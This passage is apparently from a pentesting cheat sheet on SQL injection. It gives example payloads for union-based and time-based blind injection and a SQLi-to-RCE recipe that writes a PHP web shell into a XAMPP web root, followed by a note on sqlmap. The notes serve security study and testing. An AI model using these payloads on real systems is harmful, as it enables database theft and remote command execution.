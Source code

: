 #### Example

```
https://example.com/products.aspx?id=1' UNION SELECT passwords from users;
```

### Time based

Forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is **TRUE** or **FALSE**.

#### Example

```
https://example.com/products.aspx?id=1' and if(substring(user(),2,1)='a',SLEEP(5),1)--
```

## SQLi to RCE

### Using XAMP

```php
# Inject cmd parameter
' union select 1,<php_payload>,3,4 into outfile <path> --
' union select 1,'<?php system($_GET["cmd"]); ?>',3,4 intooutfile 'C:\\xampp\\htdocs\\rce.php' --

# Reverse Shell created. Access from outside :
<host>/rce.php?cmd=<command>

# Test :
127.0.0.1/rce.php?cmd=time
# Result : The current time is: 16:22:25.20 Enter the new time: 3 4
```
- [kayran.io](https://kayran.io/blog/web-vulnerabilities/sqli-to-rce)

# SQLmap

>[!What is SQLmap ?]
**sqlmap** goal is to detect and take advantage of **SQL injection vulnerabilities** in web applications. Once it detects one or more SQL injections on the target host, the user can choose among a variety of options to perform an extensive back-end database management system **fingerprint**, **retrieve** DBMS **session** user and database, **enumerate** users, password hashes, privileges, databases, dump entire or user’s specific DBMS tables/columns, run his own SQL statement, read specific files on the file system and more.

[SQLMap cheatsheet](https://thedarksource.com/sqlmap-cheat-sheet)

# Usage
## Dumping tables
